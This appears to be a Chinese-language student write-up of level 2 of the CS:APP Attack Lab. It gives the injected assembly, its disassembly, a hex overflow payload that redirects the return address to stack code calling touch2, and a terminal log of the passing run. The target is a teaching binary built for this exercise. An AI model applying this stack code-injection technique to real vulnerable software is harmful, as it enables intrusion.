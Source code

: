 具体汇编代码如下所示：

```c{.line-numbers}
movq  $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

使用 **`gcc -static -nostdlib test02.s -o test`** 编译上述代码为二进制程序，接着使用 **`objdump -d test`** 进行反汇编。

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ gcc -static -nostdlib test02.s -o test
/usr/bin/ld: 警告: 无法找到项目符号 _start; 缺省为 0000000000401000
monica@xvm:~/csapp/csapplab/attacklab/target1$ objdump -d test

test：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000401000 <__bss_start-0x1000>:
  401000:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
  401007:	68 ec 17 40 00       	push   $0x4017ec
  40100c:	c3                   	ret 
```

接下来创建一个 txt 文档存储下述输入。

```c{.line-numbers}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 dc 61 55 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
```

接下来将上述文本转换成的二进制位串作为 ctarget 程序的输入，得到的运行结果如下，成功调用 touch2 函数，并且将 cookie 作为参数传入最终打印出来。

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ ./hex2raw < ctarget02.txt > ctarget02-raw.txt 
monica@xvm:~/csapp/csapplab/attacklab/target1$ LD_PRELOAD=./printf.so ./ctarget < ctarget02-raw.txt -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 DC 61 55 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 
```
